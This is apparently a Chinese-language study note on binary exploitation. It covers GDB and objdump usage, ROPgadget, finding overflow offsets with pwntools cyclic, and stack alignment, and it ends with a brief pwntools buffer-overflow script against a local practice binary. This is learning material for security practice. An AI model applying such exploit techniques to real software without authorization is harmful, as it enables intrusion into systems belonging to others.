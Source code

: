 # Exploit
## Disassembly Tool - GDB
- 設定成 intel 版本
```
set disassembly-flavor intel

```
- 查看組語 / 反編譯
```
lay <asm/src>
```
- 常用參數介紹
    - `b <func>` 設定 Break point
    - `r` 開始執行
    - `ni` 執行下一個指令，如果是 func 直接執行完成
    - `si` 執行下一個指令，逐行執行 func 指令
    - `continue` 執行至斷點
    - `x/[Size Modifiers][Format]` 顯示記憶體資料
    - Size
        - b(byte)/1 byte (8-bit)
        - h(Halfword)/2 byte (16-bit)
        - w(Word)/4 byte (32-bit)
        - g(Giant Word)/8 byte(64-bit)
    - Format
        - o octal
        - x hexadecimal
        - b binary
        - s string
        - i 組合語言


## Disassembly Tool - objdump
- 看組語
```
objdump -d <binary>
```

## Find ROP
- **ROPgadget**
```
sudo -H python3 -m pip install ROPgadget
```
```
ROPgadget --binary <$binary> (--only <$command>)
```
## Finding Offset
- 找出 padding 長度
    - 通靈
        - 這部份我可能沒有
    - GDB
    - cyclic in pwntools

- 利用 cyclic 去產生連續字串
- ![](https://hackmd.io/_uploads/SJH-v2wPh.png)
- 利用 gdb 去找長度
- ![](https://hackmd.io/_uploads/HJ94DnDDn.png)
- 剛好 6c 就在 l
```
cyclic_find('laaa')
```
- return 位置就在 buf 後面 約 44 bytes

### Stack Alignment
- 在尋找 Return Address 的位置時可能會發現一些奇怪的地方
- 明明 Buf 大小就沒有設定那麼大，padding 為什麼那麼大
- 針對區域變數如果只有 1 byte 或不到 4 bytes 的資料對齊調整 (32 位元)

## Exploit
- objdump 查看函數位址
    - ![](https://hackmd.io/_uploads/SytQinwvh.png)
    - ![](https://hackmd.io/_uploads/SJY4jnvwh.png)

- 寫 code 攻擊
```python=
from pwn import *

r = process("./pwn")

padding = (b"a"*44)
add = p32(0x080491c6)
r.sendline(padding+add)
